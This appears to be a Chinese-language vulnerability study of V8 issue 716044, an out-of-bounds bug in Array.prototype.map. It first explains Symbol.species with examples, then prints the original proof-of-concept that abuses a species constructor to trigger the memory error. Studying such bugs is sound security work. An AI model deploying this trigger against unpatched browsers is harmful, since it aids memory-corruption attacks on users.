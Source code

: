 ## Issue 716044 Array.prototype.map OOB

#### 基础科普

###### Symbol.species

Symbol.species 是个函数值属性，对象的Symbol.species属性，指向一个构造函数。创建衍生对象时，会使用该属性。

举个例子：

```
class MyArray extends Array {}
const a = new MyArray(1,2,3);
const b = a.map(x => x);
const c = a.filter(x => x > 1);
console.log(b);
console.log(c);
console.log(b instanceof MyArray); //true
```

子类MyArray继承了父类Array，a是MyArray的实例，b和c是a的衍生对象。b和c是Array的实例，也是MyArray的实例，为了进行区分，引入Symbol.species属性:

```
class MyArray extends Array{
    // 覆盖 species 到父级的 Array 构造函数上
    static get [Symbol.species] () {
        return Array;
    }
 }
```
这样的话：
```
var a = new MyArray(1,2,3);
var b = a.map(x => x * x);

console.log(b instanceof MyArray); // false
console.log(b instanceof Array);   // true
```
通过a.map创建的b就不再是MyArray的实例了，而是Array的实例。    

    
#### poc

原版poc：
```
class Array1 extends Array {
  constructor(len) {
    super(1);
  }
};

class MyArray extends Array {
  static get [Symbol.species]() {
    return Array1;
  }
}

a = new MyArray();
for (var i = 0; i < 10000000; i++) {
  a.push(1);
}

a.map(function(x) { return 42; });
```
